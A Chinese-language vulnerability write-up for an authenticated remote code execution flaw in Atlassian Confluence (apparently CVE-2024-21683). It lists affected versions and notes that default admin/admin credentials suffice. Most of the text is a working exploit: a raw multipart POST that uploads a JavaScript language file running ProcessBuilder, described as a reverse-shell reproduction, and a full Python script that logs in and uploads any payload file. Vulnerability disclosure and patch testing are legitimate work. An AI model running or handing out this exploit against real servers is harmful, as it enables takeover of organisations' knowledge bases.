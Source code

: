 **漏洞介绍**

Atlassian Confluence是澳大利亚Atlassian公司的一套专业的企业知识管理与协同软件，也可以用于构建企业WiKi。

Atlassian Confluence Data Center and Server存在安全漏洞，该漏洞源于存在远程代码执行问题，允许经过身份验证的攻击者执行任意代码。

**影响版本**

1、 Data Center == 8.9.0 

2、 8.8.0 <= Data Center <= 8.8.1 

3、 8.7.0 <= Data Center <= 8.7.2 

4、 8.6.0 <= Data Center <= 8.6.2 

5、 8.5.0 <= Data Center <= 8.5.8 LTS 

6、 8.4.0 <= Data Center <= 8.4.5 

7、 8.3.0 <= Data Center <= 8.3.4 

8、 8.2.0 <= Data Center <= 8.2.3 

9、 8.1.0 <= Data Center <= 8.1.4 

10、 8.0.0 <= Data Center <= 8.0.4 

11、 7.20.0 <= Data Center <= 7.20.3 

12、 7.19.0 <= Data Center <= 7.19.21 LTS 

13、 7.18.0 <= Data Center <= 7.18.3 

14、 7.17.0 <= Data Center <= 7.17.5 

15、 8.5.0 <= Server <= 8.5.8 LTS 

16、 8.4.0 <= Server <= 8.4.5 

17、 8.3.0 <= Server <= 8.3.4 

18、 8.2.0 <= Server <= 8.2.3 

19、 8.1.0 <= Server <= 8.1.4 

20、 8.0.0 <= Server <= 8.0.4 

21、 7.20.0 <= Server <= 7.20.3 

22、 7.19.0 <= Server <= 7.19.21 LTS 

23、 7.18.0 <= Server <= 7.18.3 

24、 7.17.0 <= Server <= 7.17.5

利用需要默认admin/admin登录

**漏洞复现**

漏洞复现（反弹shell）

 **POC （POST）**

```yaml

POST /admin/plugins/newcode/addlanguage.action HTTP/1.1
Host: 172.17.151.129:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 459
Content-Type: multipart/form-data; boundary=690dd62eb49730d16f0a919d8736b152

--690dd62eb49730d16f0a919d8736b152
Content-Disposition: form-data; name="atl_token"

tockenxxxx
--690dd62eb49730d16f0a919d8736b152
Content-Disposition: form-data; name="newLanguageName"

test
--690dd62eb49730d16f0a919d8736b152
Content-Disposition: form-data; name="languageFile"; filename="exploit.js"
Content-Type: text/javascript

new java.lang.ProcessBuilder["(java.lang.String[])"](["calc.exe"]).start()
--690dd62eb49730d16f0a919d8736b152--
```

js执行payload

```
new java.lang.ProcessBuilder["(java.lang.String[])"](["calc.exe"]).start()
```



**修复建议**

目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

```
https://confluence.atlassian.com/pages/viewpage.action?pageId=1387867145https://github.com/W01fh4cker/CVE-2024-21683-RCEhttps://ti.qianxin.com/vulnerability/detail/353479
```

```python

import click
import requests

USER_AGENT = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36"


def login(session: requests.Session, url: str, username: str, password: str) -> None:
    data = f"os_username={username}&os_password={password}&login=Log+in&os_destination=%2Findex.action"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    response = session.post(url=url, headers=headers, data=data, verify=False)

    if "the following error(s) occurred" in response.text.lower():
        raise ValueError("Incorrect user or password")

    if response.status_code != 200:
        raise ValueError("Unknown error")


def do_authenticate(
    session: requests.Session, url: str, username: str, password: str
) -> None:
    data = f"password={password}&authenticate=Confirm&destination=%2Fadmin%2Fconsole.action"
    headers = {"Content-Type": "application/x-www-form-urlencoded"}

    response = session.post(url=url, headers=headers, data=data, verify=False)

    if "the following error(s) occurred" in response.text.lower():
        raise ValueError("Incorrect user or password")

    if response.status_code != 200:
        raise ValueError("Unknown error")


def upload_macros(
    session: requests.Session, url: str, macro_name: str, payload: str
) -> None:
    data = {"newLanguageName": "MyNewLanguage"}

    files = {"languageFile": (macro_name, payload, "text/javascript")}

    response = session.post(url, data=data, files=files, verify=False)

    if response.status_code != 200:
        raise ValueError("Unknown error")


@click.command()
@click.option(
    "--user",
    "-u",
    help="Username of user with system administration privelege. Example: admin",
)
@click.option(
    "--password",
    "-p",
    help="Password of user with system administration privelege. Example: admin",
)
@click.option("--target", "-t", help="URL confluence. Example: http://127.0.0.1:8090")
@click.option("--file", "-f", help="File payload. Example: exp.js")
@click.option("--name", "-n", default="test", help="New language name. Example: test")
def main(user: str, password: str, target: str, file: str, name: str):
    sess = requests.Session()
    sess.headers.update({"User-Agent": USER_AGENT, "X-Atlassian-Token": "no-check"})

    login(
        session=sess, url=f"{target}/dologin.action", username=user, password=password
    )
    do_authenticate(
        session=sess,
        url=f"{target}/doauthenticate.action",
        username=user,
        password=password,
    )

    with open(file, "rt") as fd:
        payload = fd.read()

    upload_macros(
        session=sess,
        url=f"{target}/admin/plugins/newcode/addlanguage.action",
        macro_name=name,
        payload=payload,
    )


if __name__ == "__main__":
    main()
```

